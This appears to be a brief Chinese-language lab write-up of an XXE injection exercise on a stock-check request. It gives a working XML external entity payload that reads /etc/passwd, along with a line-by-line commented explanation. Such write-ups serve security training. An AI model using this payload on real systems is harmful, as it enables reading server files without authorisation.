

检查库存处抓包，发现xml格式数据




尝试xxe注入

poc:

```javascript
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```


poc解释：

```javascript
<?xml version="1.0" encoding="UTF-8"?>
//自定义外部实体xxe
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
//引用&xxe;外部实体
//服务器请求了定义的&xxe;外部实体
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

